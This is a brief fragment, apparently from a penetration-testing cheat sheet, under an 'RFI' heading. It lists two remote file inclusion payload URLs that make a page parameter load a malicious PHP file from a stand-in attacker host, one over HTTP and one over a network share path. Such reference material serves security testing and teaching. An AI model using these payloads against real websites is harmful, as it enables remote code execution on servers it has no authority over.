 ## RFI
- Basic RFI
````
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
````
